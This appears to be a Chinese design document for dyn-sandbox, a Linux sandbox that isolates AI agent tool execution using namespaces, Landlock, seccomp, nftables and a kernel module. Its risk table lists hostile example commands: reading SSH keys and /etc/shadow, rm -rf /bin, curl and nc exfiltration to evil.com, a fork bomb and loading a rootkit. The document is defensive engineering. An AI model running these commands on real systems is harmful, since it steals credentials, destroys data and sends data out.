



# Agent Tool 动态沙箱

## 1. 概述

### 1.1 背景与目标

AI agent 在执行 tool（bash 命令、文件读写、代码执行、网络请求等）时，如果 tool 被恶意利用或失控，可能对宿主机造成严重损害。<br>
不同的tool（web search/email/file_read）不应该拥有相同的权限，如果不对tool的运行权限做最小限制，就存在横向扩散风险。

| 风险类别 | 风险描述 | 攻击示例 |
|---------|---------|---------|
| **敏感文件泄露** | 读取宿主机凭据和隐私文件 | `cat ~/.ssh/id_rsa`<br>`cat /etc/shadow` |
| **系统文件篡改** | 破坏系统关键文件导致服务不可用 | `rm -rf /bin`<br>`echo "evil" > /etc/passwd` |
| **持久化后门** | 写入自启动脚本，沙箱销毁后仍存在 | `echo "evil" >> /etc/rc.local`<br>`crontab -e` |
| **横向移动** | 访问内网未授权服务 | `mysql -h 10.0.0.2 -uroot -p`<br>`redis-cli -h 192.168.1.1 FLUSHALL` |
| **数据外泄** | 将主机数据发送到外部 | `tar czf - /home/data \| curl --data-binary @- evil.com:9999`<br>`nc evil.com 1337 < /etc/shadow` |
| **内核攻击** | 加载内核模块或触发内核漏洞 | `insmod rootkit.ko`<br>`mount -o loop /tmp/exploit /mnt` |
| **权限逃逸** | 利用 setuid 或 capabilities 提权 | `./suid_bin`<br>`capsh --caps=... -- ` |
| **资源滥用** | 耗尽宿主机资源影响其他服务 | `:(){ :\|:& };:`（fork bomb）<br>`dd if=/dev/zero of=/tmp/bomb bs=1M` |
| **进程信息泄露** | 读取其他进程的敏感信息 | `ps aux`<br>`cat /proc/1/environ` |


针对以上风险，**dyn-sandbox** 提供了一个隔离、受控的tool运行环境，目标是：
- 与宿主机之间文件系统隔离，沙箱间完全隔离
- 沙箱内支持 `文件/目录` 粒度的文件访问控制
- 沙箱内支持 `域名/网段` 粒度的网络访问控制
- 非 root 执行，沙箱执行过程中不获取高权限
- 动态提权，运行时可通过内核捕获权限拒绝，并动态放宽；
- 被拒绝访问最小粒度重试，业务无感


**设计理念**

- 权限使用白名单控制，初始权限最小化；
- 初始权限动态化，不同tool权限不同；
- 提供运行时权限放宽机制，动态调整权限。

### 1.2 范围

| 类别 | 内容 |
|------|------|
| **包括** | 沙箱和host文件系统隔离<br>策略定义及解析<br>沙箱间网络、文件系统隔离<br>沙箱内网络访问细粒度控制<br>沙箱内文件访问细粒度控制<br>文件访问动态提权，无感重试 |
| **不包括** | 策略的生成<br>沙箱内CPU/内存/磁盘资源限制<br>权限动态提升的决策实现 |

## 2. 需求分析

### 2.1 用户需求描述

**用户视角**

AI agent 场景下，用户（使用 agent 的终端用户）的核心矛盾：**希望 agent 能力足够强大，但又担心被误伤**。用户关心的可以归纳为三点：

- **只操作必要的数据**：用户希望 agent 只操作工作相关的数据，不能接触到 ~/.ssh、/etc/shadow 等敏感路径，且不能将数据外发到任意服务器，达到即使被 prompt injection 泄露范围也仅限于工作数据
- **对环境影响尽量小**：用户希望 agent 执行脚本、装包时不能修改系统文件，执行完毕后不留后门和残留文件，达到沙箱销毁后宿主机无任何状态变化
- **失败后重试的代价尽量小**：用户希望 agent 正常工作，失败后重试代价尽可能小；

-----
**Agent 框架的技术需求**

从上述用户诉求出发，agent 框架对底层沙箱提出以下技术要求：

- **文件隔离**：希望工具进程只能看到指定的文件路径（工作目录 + 系统库路径）
- **文件访问控制**：希望在可见路径上精确控制读/写/执行/删除/截断权限，达到操作集 ⊆ 可见集，文件管控不依赖工具"自觉"
- **网络管控**：希望工具只访问被允许的网络，即使工具被攻破也无法访问未授权目标
- **系统调用限制**：希望工具无法执行危险 syscall（如 init_module），降低内核攻击面
- **最小特权**：希望沙箱以非 root 身份运行，不依赖 sudo，降低权限滥用风险
- **无状态**：希望沙箱用完即销毁无残留，沙箱间完全隔离
- **运行时弹性**：希望尽可能保证业务可用性，降低重试成本

### 2.2 功能性需求

| ID | 需求 | 优先级 | 对应机制 |
|----|------|--------|---------|
| F-01 | 沙箱进程只能看到指定的文件系统路径 | P0 | mount ns + pivot_root |
| F-02 | 在可见路径上精确控制读/写/执行/删除/截断 | P0 | Landlock |
| F-03 | 默认拒绝所有出站网络流量 | P0 | nftables REJECT |
| F-04 | 支持按 IP:端口白名单允许特定出站流量 | P0 | nftables set + interval |
| F-05 | 支持按域名白名单允许流量（动态解析） | P1 | dyn-sandbox-dns + nftables set |
| F-06 | 支持限制工具可用的系统调用 | P0 | seccomp-bpf policy |
| F-07 | 沙箱配置不需要 root 权限 | P0 | user ns |
| F-08 | 支持运行时文件访问动态提升权限 | P0 | kprobe + waitpid + ioctl |
| F-09 | 支持策略通过 YAML 文件或 CLI 参数传入 | P2 | 策略语言解析 |
| F-10 | 沙箱执行完毕后无残留（进程、挂载点、网络规则） | P0 | 进程退出自动回收 |

### 2.3 非功能性需求

| 类别 | 要求 | 衡量指标 |
|------|------|---------|
| **性能** | 沙箱创建到 tool 执行开销 | 优于docker（当前无实际数据） |
| **可用性** | 关键组件缺失时报错退出，不降级运行 | 退出码明确区分故障原因（见 3.3.2） |
| **安全性** | 沙箱内进程无权篡改自身策略 | landlock_restrict_self() 不可逆，nftables 在子 netns 内不可改 |
| | 沙箱内进程无权逃逸到宿主机 | user ns 隔离 uid，drop caps + NO_NEW_PRIVS |
| | dyn_sandbox.ko 对访问者鉴权 | 拒绝非 dyn-sandbox 的二进制通过 `/dev/dyn-sandbox` 操作沙箱 |
| **可观测性** | 工具执行过程可追踪 | dyn-sandbox 输出阶段日志，记录策略参数、沙箱创建耗时、命令退出码 |
| | 权限拒绝事件可监控 | kprobe 捕获次数、动态放宽次数、ioctl 决策结果可导出 |
| **可扩展性** | 动态放权决策接口对外开放 | 上层可通过 IPC 接入自定义决策逻辑，sandbox 仅负责捕获和执行 |
| **兼容性** | 支持主流硬件架构 | x86_64、aarch64 |

### 2.4 约束条件

- 网络访问暂不支持运行时动态放宽。
- 对 OS 内核版本和系统有依赖要求，详见 6.2 对 OS 的依赖。

---

## 3. 总体设计

### 3.1 架构概览

```
┌──────────────────────────────────────────────────────────────────────────┐
│                      Agent runtime                                       │
│  ┌──────────┐  ┌──────────┐                                              │
│  │ YAML     │  │ CLI      │                                              │
│  │ policy   │  │ params   │                                              │
│  └────┬─────┘  └────┬─────┘                                              │
└───────┼─────────────┼────────────────────────────────────────────────────┘
        │  exec       │
        ▼             ▼
┌──────────────────────────────────────────────────────┐  ┌────────────────┐
│                     dyn-sandbox                      │  │   dyn-sandbox-dns    │
│                                                      │  │                │
│  ┌── 父进程(monitor) ───────────────────────────────┐ │  │                │
│  │                                                 │ │  │ 接收DNS查询     │
│  │  解析 CLI / raw_clone                            │ │  │ 域名白名单检查   │
│  │  uid_map                                        │ │  │ 转发上游DNS     │
│  │  waitpid:                                       │ │  │ REPORT_DNS     │
│  │    SIGSTOP→GET_BLOCKED→DEC                      │ │  │                │
│  │                                                 │ │  │                │
│  ├── 子进程(exec) ──────────────────────────────────┤ │  │                │
│  │                                                 │ │  │                │
│  │  filesystem config                              │ │  │                │
│  │  netns config                                   │ │  │                │
│  │  Landlock/seccomp/nftables                      │ │  │                │
│  │  cmd execve                                     │ │  │                │
│  │                                                 │ │  │                │
│  └─────────────────────────────────────────────────┘ │  └───────┬────────┘
└─────────────────────┬────────────────────────────────┘          │
                      └──────────────────┬────────────────────────┘
                                         │ ioctl
                                         ▼
┌──────────────────────────────────────────────────────────────────────────┐
│                         dyn_sandbox.ko                                       │
│  ┌──────────────────────────────────┐  ┌──────────────────────────────┐  │
│  │ 沙箱网络隔离                       │  │ landlock权限动态调整           │  │
│  │  netns 隔离规则配置                │  │ 文件访问捕获 EACCES 异常        │  │
│  │  nftables 白名单管控               │  │  用户态ask决策+动态追加权限     │  │
│  └──────────────────────────────────┘  └──────────────────────────────┘  │
└──────────────────────────────────────────────────────────────────────────┘
```

### 3.2 模块划分

| 模块 | 职责描述 | 依赖模块 | 类型 |
|------|---------|---------|------|
| dyn-sandbox | 核心沙箱二进制，解析策略参数，创建隔离环境，执行 tool | dyn_sandbox.ko | 用户态可执行文件 |
| dyn_sandbox.ko | 统一内核模块<br>网络管理：创建 veth/netns/nftables<br>运行时文件放宽：捕获异常返回 + 路由到用户态ask + 动态追加 Landlock 规则 | 内核 nftables<br>内核 kprobe<br>Landlock 子系统 | 内核模块 |
| dyn-sandbox-dns | DNS 代理进程，接收子 netns DNS 查询，进行域名管控 | dyn_sandbox.ko | 用户态守护进程 |

**模块间关系：**

- dyn-sandbox、dyn-sandbox-dns 通过字符设备 `/dev/dyn-sandbox` 与 dyn_sandbox.ko 通信
- dyn-sandbox 通过 dyn_sandbox.ko 完成运行环境配置；运行时通过 dyn_sandbox.ko 实现文件权限动态放宽

### 3.3 核心流程

#### 3.3.1 主流程

以下时序图从全局视角展示一次 tool 执行的完整生命周期：



**dyn-sandbox 内部阶段说明（子进程 4 阶段 + 父进程监护循环）：**

```
--- 子进程执行 ---

阶段 1 (child_setup_stdio): 标准 I/O 重定向 + 等待 UID map
         ├── dup2 重定向 stdin/stdout/stderr → pipe
         └── eventfd 等待父进程写 uid_map 完成

阶段 2 (child_setup_network): 网络环境创建 (仅 has_network)
         ├── ioctl(SANDBOX_NET_CREATE) → dyn_sandbox.ko 创建 veth + nftables
         ├── ip addr add child_ip dev veth_child
         ├── ip link set veth_child up
         └── ip route add default via gateway

阶段 3 (child_setup_security): 文件系统 + Landlock ruleset + seccomp BPF
         ├── mount("", "/", MS_PRIVATE | MS_REC) — 断开挂载传播
         ├── setup_filesystem():
         │     ├── pivot_root_into_tmpfs()       — tmpfs 新根
         │     ├── setup_default_mounts()         — /usr, /etc, /sys bind
         │     └── setup_virtual_fs()             — /proc(ro), /dev(mknod), /dev/shm, /tmp
         ├── setup_resolv_conf()                  — 有网络时写 /etc/resolv.conf
         ├── setup_landlock_base()                — 创建基础 ruleset（未生效）
         ├── setup_user_mounts(cfg)               — 用户 --mount / --mount-tmpfs
         ├── setup_landlock_user(cfg, ruleset_fd) — 用户 landlock 权限
         └── build_seccomp_prog(cfg)              — 构建 BPF 程序（未生效）

阶段 4 (child_finalize): 清理 + 降权 + 生效 + exec
         ├── umount2("/oldroot", MNT_DETACH) + rmdir
         ├── 信号重置（SIG_DFL）
         ├── close 多余 fd（保留 sandbox_fd + landlock_fd）
         ├── chdir(cfg->workdir)
         ├── enable_sandbox():
         │     ├── prctl(PR_SET_NO_NEW_PRIVS)
         │     ├── landlock_restrict_self()    ← 不可逆
         │     └── seccomp(SECCOMP_SET_MODE_FILTER)
         └── execvp(tool_cmd)

--- 父进程执行 ---

父进程: 监护循环 (signalfd + poll)
         ├── close child 端 pipe fd
         ├── 非 root：写 child 的 uid_map / gid_map
         ├── eventfd 唤醒子进程
         ├── ioctl SANDBOX_FILE_SET_PID(child_pid)
         ├── close 多余 fd（保留 sandbox_fd + pipe fd）
         ├── signalfd(SIGCHLD) + poll 循环:
         │     ├── forward_fd: child stdout/stderr → 父进程
         │     ├── sandbox_fd POLLIN:
         │     │     ├── ioctl GET_BLOCKED → 被拦路径
         │     │     ├── dprintf(AUTH_REQ) → stdout
         │     │     ├── fgets(stdin) 读决策回复
         │     │     ├── ioctl DECISION → 内核
         │     │     └── 日志输出 ALLOW/DENY
         │     ├── SIGCHLD → waitpid(WNOHANG):
         │     │     ├── WIFEXITED → cleanup_exit(退出码)
         │     │     └── WIFSIGNALED → cleanup_exit(1)
         │     └── stdin → child stdin (转发)
         └── cleanup_exit(1)
```

沙箱内网络域名限制流程（dyn-sandbox-dns）：



#### 3.3.2 异常流程

**运行时放宽流程：**

当 Landlock 拒绝文件操作时，使用kprobe机制捕获 异常返回值（EACCESS/EPERM） 并走以下流程：



---

## 4. 设计实现

### 4.1 接口设计

#### 4.1.1 dyn-sandbox CLI 接口

```
dyn-sandbox \
  --mount /usr:ro \
  --mount /etc:ro \
  --mount-tmpfs /tmp:16 \
  --landlock '/usr/bin/**:execute+read' \
  --landlock '/tmp/**:read+write' \
  --seccomp bash \
  --domain api.github.com \
  --cidr 10.0.0.0/8 \
  -c /tmp \
  -- tool_cmd [args...]
```

| 参数 | 说明 | 是否必需 |
|------|------|---------|
| `--mount /src:ro\|rw` | bind mount（只读或读写） | 按需 |
| `--mount-tmpfs /path[:MB]` | tmpfs 挂载，可选大小限制 | 按需 |
| `--landlock '/path:perm1+perm2'` | Landlock 规则（路径+权限） | 按需 |
| `--domain domain` | DNS 域名白名单（可重复，逗号分隔） | 按需 |
| `--cidr x.x.x.x/prefix` | IP CIDR 白名单（可重复，逗号分隔） | 按需 |
| `--seccomp profile` | 引用预置 seccomp profile（default/file_access/script） | 按需 |
| `-c /path` | 工作目录 | 可选（默认 /） |
| `--policy file.yaml` | YAML 策略文件（语法糖）。dyn-sandbox 解析其中的 mount/landlock/seccomp/network 段，network 段通过 dyn_sandbox.ko 创建网络环境 | 与单参数互斥 |

**退出码与异常场景：**

| 退出码 | 场景 | 触发点 | 行为 |
|--------|------|--------|------|
| 0 | tool 正常执行完毕 | — | 普通退出 |
| 1 | tool 执行失败 | Phase 8 execve 后 | tool 返回非 0 退出码 |
| 2 | Landlock 内核不支持 | Phase 5 | 报错退出 |
| 2 | Landlock 规则创建失败 | Phase 5 | 报错退出 |
| 3 | seccomp 内核不支持 | Phase 6 | 报错退出 |
| 3 | seccomp profile 未找到 | Phase 6 | 报错退出 |
| 4 | mount 源路径不存在 | Phase 4 | 报错退出 |
| 4 | pivot_root 失败 | Phase 3 | 报错退出 |
| 5 | namespace 创建失败 | Phase 1 | 报错退出 |
| 5 | uid_map 写入失败 | Phase 1 | 报错退出 |
| 6 | dyn_sandbox.ko 模块未加载 | Phase 5 (检查 /dev/dyn-sandbox) | 报错退出 |
| 7 | 网络策略配置失败 | Phase 0 调用 dyn_sandbox.ko | 报错退出 |
| — | tool 被 seccomp 杀死 | 运行中违反 syscall 白名单 | SIGSYS 信号 |

#### 4.1.2 dyn_sandbox.ko 驱动 ioctl 接口

字符设备路径：`/dev/dyn-sandbox`，统一 `SANDBOX_*` 命令前缀。

| ioctl 命令 | 说明 | 输入 | 输出 |
|-----------|------|------|------|
| `SANDBOX_NET_CREATE` | 创建 veth pair + 子 netns + nftables 规则 | `struct sandbox_net_create`（flags、veth_host/child、domains、cidrs） | `struct sandbox_net_create` output 字段（env_id、host_ip、child_ip、gateway、prefix、dns_port） |
| `SANDBOX_NET_REPORT_DNS` | 将 DNS 解析出的 IP 加入 @allowed set | `struct sandbox_dns_report`（src_ip, domain, ips[], ip_count） | 无 |
| `SANDBOX_NET_SET_DNS_PORT` | dyn-sandbox-dns 通知内核其实际监听端口 | `struct sandbox_dns_port`（port） | 无 |
| `SANDBOX_FILE_GET_BLOCKED` | 获取被 Landlock 拒绝的文件路径（父进程调用） | 无 | `struct sandbox_file_blocked`（filename + resolved） |
| `SANDBOX_FILE_DECISION` | 决策后通知内核放行或拒绝，内核发送 SIGCONT 恢复子进程 | `struct sandbox_file_decision`（path, decision） | 无 |
| `SANDBOX_FILE_SET_PID` | 注册需要监护的子进程 PID，kprobe 通过此 PID 查找沙箱实例 | `int`（child_pid） | 无 |

#### 4.1.3 dyn-sandbox-dns 接口

| 接口 | 说明 |
|------|------|
| UDP 监听地址 | 宿主机侧 veth IP + 自动探测端口（默认 53，被占用后随机） |
| 上游 DNS | 读取 `/etc/resolv.conf` 获取宿主机上游 DNS |
| ioctl 通知 | 解析到 IP 后通过 `SANDBOX_NET_REPORT_DNS` 将解析出的 IP 加入 @allowed set |

#### 4.1.4 dyn_sandbox.ko 模块参数

| 参数 | 默认值 | 权限 | 说明 |
|------|--------|------|------|
| `landlock_enable` | -1 | 0444（sysfs 只读） | 三态开关，控制整条 Landlock 文件运行时授权链路（见 4.2.6） |
| `trace_all` | 0 | 0644 | 对非沙箱进程也打印 ENTRY/TRACE 日志，仅调试用 |

`landlock_enable` 控制三件事：13 个文件 kretprobe 传感器、动态插规则（`sandbox_landlock_allow_path`）、DECISION ioctl 入口守卫。`trace_all` 与网络隔离不受其影响。

**加载时决策（只由两个输入决定）**：参数显式值 + `lsm_names` 探测结果。内核模块通过 `kallsyms_lookup_name("lsm_names")` 解引用读启用 LSM 列表，`strstr(..., "landlock")` 判定 Landlock 是否**真正生效**——编译进内核 ≠ 启用；LSM 未进启用列表时 blob 未分配，`cred->security + lbs_cred` 是野指针。

| 参数值 | 行为 |
|--------|------|
| -1（默认，自动探测） | 内核启用 Landlock → 开启并初始化；不可用 → **唯一优雅路径**：模块照常加载（网络隔离、ioctl 可用），仅文件授权关闭 |
| 0（关闭） | 纯网络沙箱：不探测、不注册，无 Landlock 相关初始化 |
| 1（严格） | Landlock 文件授权是契约：probe/LSM/符号/kprobe 任一失败 → 模块加载失败 |

**设计决策**：

- 一旦决定"开启"（`landlock_enable=1`，或 auto 且探测通过），初始化过程任何失败（符号解析、kretprobe 注册）都是异常 → 模块加载失败（负 errno），无优雅降级。
- `kallsyms_lookup_name` 必须先解析成功：无论严格还是自动，解析失败 → 模块加载失败（无优雅回退——没有它连"LSM 是否激活"都无法判定）。`landlock_enable=0` 在解析前直接返回，跳过此步。
- 非法值（非 -1/0/1）→ 配置错误，返回 `-EINVAL` 加载失败，不静默当作 auto。
- 仅加载时指定（`insmod`/`modprobe dyn_sandbox landlock_enable=0`），sysfs 权限 0444 只读，不支持运行时切换——即使 root 也无法 `echo` 修改。
- 关闭/降级时 DECISION ioctl 入口直接返回 `-EOPNOTSUPP`。安全前提：kretprobe 是 blocked_list 唯一入队源，未就绪时列表必空，无 SIGSTOP 子进程悬挂。

### 4.2 功能设计

#### 4.2.1 文件系统隔离

文件管控方面采用两层管控方案：

```
mount policy（可见集）── 最大的文件边界
    │ 超集：决定了沙箱内能看到哪些目录
Landlock policy（操作集）── 精确的允许操作
    │ 子集：在可见集中精确解锁读/写/执行权限
```

**沙箱内文件系统布局：**

```
沙箱内 /
├── /usr  → ro-bind 宿主 /usr     # 运行时（bash/python/动态库）
├── /etc  → ro-bind 宿主 /etc     # 配置（nsswitch.conf 被覆盖为仅 files）
├── /sys  → ro-bind 宿主 /sys     # 内核接口
├── /tmp  → tmpfs                 # 工具工作目录（大小可通过 --tmpfs-size 配置）
├── /proc → proc (MS_RDONLY)       # 只读 proc
└── /dev  → tmpfs + mknod         # 最小设备节点（非 devtmpfs）
    ├── null, zero, full, random, urandom, tty
    ├── shm/ (tmpfs)
    └── pts/
```

**切根流程（pivot_root 实现文件系统隔离）：**

```
pivot_root_into_tmpfs():

  1. mkdtemp → /tmp/sandbox-XXXXXX
  2. 在该目录挂 tmpfs 作为新根
  3. 创建 oldroot 目录
  4. pivot_root(base_path, oldroot)

  切根前后挂载树变化：

    切根前                         切根后
    / (ext4)                       / (tmpfs)
    ├── /dev (devtmpfs)            └── /oldroot (原 ext4)
    ├── /proc (proc)                   ├── dev/ (普通目录, 非 devtmpfs)
    └── /sys (sysfs)                   └── ...

    注: devtmpfs、proc 等是原 ext4 根的子挂载点, MS_PRIVATE
    使 propagation 断开, pivot_root 移动旧根时这些子挂载点
    不跟随, 从挂载树中脱离。所以 /oldroot/dev 不可访问。

setup_default_mounts() — 从 /oldroot bind mount 必要目录

    /usr → ro (MS_REC, 带 merged-usr symlink: /bin→usr/bin, /lib→usr/lib 等)
    /etc → ro (MS_REC; nsswitch.conf 被 /sandbox-nsswitch.conf 覆盖)
    /sys → ro (MS_REC | MS_NODEV | MS_NOSUID | MS_NOEXEC, 非 fatal)

setup_virtual_fs()

    /proc → proc (ro)
    /dev  → tmpfs + mknod(6 个设备节点, 不用 devtmpfs)
    /dev/shm → tmpfs
    /tmp  → tmpfs (大小可通过 --tmpfs-size 配置)

setup_resolv_conf() — 有网络策略时写 resolv.conf

最终挂载树:

    / (tmpfs)
    ├── /usr (bind, ro)
    ├── /etc (bind, ro)
    ├── /sys (bind, ro)
    ├── /proc (proc, ro)
    ├── /dev (tmpfs, 6 个设备节点)
    ├── /dev/shm (tmpfs)
    └── /tmp (tmpfs, 独立 256MB)
```

#### 4.2.2 Landlock 权限映射

CLI `--landlock` 参数中使用的权限名与内核 Landlock 权限位的映射关系：

| 策略名 | 含义 | 对应内核位 |
|--------|------|-----------|
| read | 读文件和目录 | LANDLOCK_ACCESS_FS_READ_FILE + LANDLOCK_ACCESS_FS_READ_DIR |
| write | 写文件、创建文件和目录 | LANDLOCK_ACCESS_FS_WRITE_FILE + LANDLOCK_ACCESS_FS_MAKE_REG + LANDLOCK_ACCESS_FS_MAKE_DIR |
| execute | 执行二进制 | LANDLOCK_ACCESS_FS_EXECUTE |
| remove | 删除文件和目录 | LANDLOCK_ACCESS_FS_REMOVE_FILE + LANDLOCK_ACCESS_FS_REMOVE_DIR |
| truncate | 截断文件 | LANDLOCK_ACCESS_FS_TRUNCATE |

未暴露的权限位（REFER、IOCTL、MKNOD 等）不在 `handled_access_fs` 中声明，内核默认放行，不予拦截。当前 5 种权限已覆盖 tool 执行的主要文件操作场景。

#### 4.2.3 网络隔离

dyn-sandbox 在 Phase 0 解析 CLI 参数中 --domain/--cidr 后标记 has_network=1。raw_clone 时通过 CLONE_NEWNET 使子进程拥有空的 netns，子进程在 Phase 1 统一完成网络环境创建：

```
raw_clone(CLONE_NEWNET) → 子进程自动拥有空的 netns

子进程 Phase 1:
  1. ioctl(SANDBOX_NET_CREATE) → dyn_sandbox.ko 创建 veth pair + nftables 规则
  2. ip addr add child_ip dev veth_child
  3. ip link set veth_child up
  4. ip route add default via gateway
```

**子 netns 内 nftables 规则：**

```bash
table inet sandbox {
    set allowed {
        type ipv4_addr . inet_service
        flags interval;
        auto-merge;
    }

    chain output {
        type filter hook OUTPUT priority 0; policy accept;
        ip daddr host_ip accept;                     # 放行 DNS 代理地址（bootstrap）
        ip daddr . tcp daddr @allowed accept;
        ip daddr . udp daddr @allowed accept;
        reject;
    }

    chain dns_nat {
        type nat hook OUTPUT priority -100; policy accept;
        udp dport 53 dnat to host_ip:proxy_port;
    }
}
```

**DNS 代理放行流程：**

```
tool 发出 DNS 查询 (udp/53)
  → DNAT (prio -100) → 10.0.0.1:proxy_port → dyn-sandbox-dns
  → dyn-sandbox-dns 检查域名白名单 → 转发上游 DNS → 提取 IP
  → ioctl(SANDBOX_NET_REPORT_DNS) → dyn_sandbox.ko 将解析出的 IP 加入 @allowed
  → tool connect() → IP 匹配 @allowed → ACCEPT
```

**规则生命周期：**

1. SANDBOX_NET_CREATE → 创建 veth + netns + nftables
